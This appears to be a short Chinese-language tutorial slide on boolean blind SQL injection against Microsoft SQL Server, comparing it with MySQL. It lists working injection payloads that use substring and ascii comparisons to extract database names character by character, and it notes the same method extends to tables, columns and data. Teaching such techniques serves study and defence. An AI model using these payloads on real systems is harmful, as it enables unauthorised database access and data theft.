

MSSql报错注入
MSSql布尔盲注的过程
mssql布尔盲注跟mysql相似：
mysql布尔盲注，mid,substr,substring,ascii。
mssql使用ascii和substring比对。
获取数据：
payload：and substring((select top 1 name from sys.sysdatabases),1,1)='m'--
payload：and substring((select top 1 name from sys.sysdatabases),2,1)='a'--
payload： and ascii(substring((select top 1 name from sys.sysdatabases),1,1))=109-- 字符m
payload： and ascii(substring((select top 1 name from sys.sysdatabases),2,1))=97--  字符a
查库名、表名、字段名、字段内容使用此法类推即可。